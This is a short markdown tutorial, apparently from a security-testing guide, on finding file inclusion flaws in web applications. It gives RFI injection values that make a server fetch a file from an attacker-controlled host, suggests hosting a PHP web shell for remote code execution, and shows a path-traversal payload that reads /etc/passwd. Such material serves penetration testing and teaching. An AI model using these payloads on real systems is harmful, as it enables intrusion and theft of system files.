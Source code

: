 
### 🔍 **Finding File Inclusion Vulnerabilities**

These bugs often hide in parameters like:

* `lang=en`
* `Country=US`
* `template=dashboard.php`
* `page=contact`

You're looking for anything that **suggests dynamic file loading** based on user input.

---

## 🛠️ HACK STEPS — How to Find Inclusion Vulnerabilities

---

### 🧬 Remote File Inclusion (RFI)

1. **Inject a remote URL you control** into the target parameter:

   ```
   Country=http://yourhost.com/test.php
   ```

   ✅ If the server makes a request to your host — bingo, it's fetching your file.

2. **Inject a non-existent IP (e.g., 192.0.2.123):**

   ```
   Country=http://192.0.2.123/malicious.php
   ```

   ✅ If the page loads slowly or times out, that means the server tried to reach it.

3. **Exploit it by uploading your malicious script** (like a PHP web shell) on your server and reference it in the include.

   ✅ That’s **instant RCE**.

> ⚠️ *RFI is rare today because most servers disable `allow_url_include`, but it’s still a high-impact bug when found.*

---

### 🧬 Local File Inclusion (LFI)

1. **Try loading a known internal server file**, like a page or script:

   ```
   page=login
   page=admin_panel
   ```

2. **Try to include static files (non-PHP):**

   ```
   page=../../../../../etc/passwd
   ```

